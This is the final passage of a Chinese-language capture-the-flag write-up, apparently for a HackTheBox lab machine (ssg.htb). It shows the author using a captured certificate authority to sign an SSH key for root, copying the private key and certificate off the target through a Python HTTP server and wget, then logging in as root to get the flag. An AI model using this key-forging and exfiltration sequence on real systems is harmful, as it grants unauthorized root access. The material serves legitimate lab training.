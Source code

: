 ![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs9ichfplmKEJNch7DHYwuBnKtC0Q4bPicU9NZraPjyUvbMIymfX0Q0ibkJMrSLN3stY3gdPVicRmkONNaQ/640?wx_fmt=png "")  
  
      
  
已经获取**ca-it**，使用**ca**对密钥对进行签名，获取**rootuser-cert.pub**文件。  
```
sudo /opt/sign_key.sh /tmp/test-ca rootuser.pub root root_user 05
```  
  
        
  
传输回本地，这里直接使用python建立http服务：  
```
python -m http.server 8001
```  
  
         
  
**kali：**  
```
wget http://10.10.11.27:8001/rootuser-cert.pub
wget http://10.10.11.27:8001/rootuser
wget http://10.10.11.27:8001/rootuser.pub

ssh -i rootuser -p 2222 root@ssg.htb
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs9ichfplmKEJNch7DHYwuBnKt6IgAunpKN8WkEMfW9or8UmI5Wty8l4gAvdF2wDcpQrRY8nIeqJdZ0A/640?wx_fmt=png "")  
  
             
  
在**/root**找到最后一个**root.txt**。      
  
  
**感谢观看！**  
  
  
